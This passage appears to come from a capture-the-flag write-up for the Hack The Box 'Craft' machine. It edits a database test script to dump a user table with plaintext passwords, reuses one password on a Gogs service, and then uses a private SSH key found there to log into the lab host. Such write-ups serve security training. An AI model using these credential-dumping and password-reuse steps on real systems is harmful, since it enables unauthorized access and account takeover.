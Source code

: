 It contains the credentials for a database and there's another interesting file
ready to use, `dbtest.py`:
```python
#!/usr/bin/env python
import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
```

Modifying the query to `SHOW TABLES`, we can see that there is a table called
`user`, and using `SELECT * FROM user` gives us some credentials:

```
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Trying to login into the Gogs service, only gilfoyle's credentials works.
He does have a private repository called `craft-infra`:
![](/images/hackthebox/craft/craft-intra.png)


Straight off, the `.ssh` directory contains a key, let's try to use it:
```
$ chmod 600 id_rsa
$ ssh gilfoyle@10.10.10.110 -i id_rsa
  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Enter passphrase for key 'id_rsa':
```
It is encrypted, but luckily the same password that we used to login in Gogs
works! And we can read the user flag:

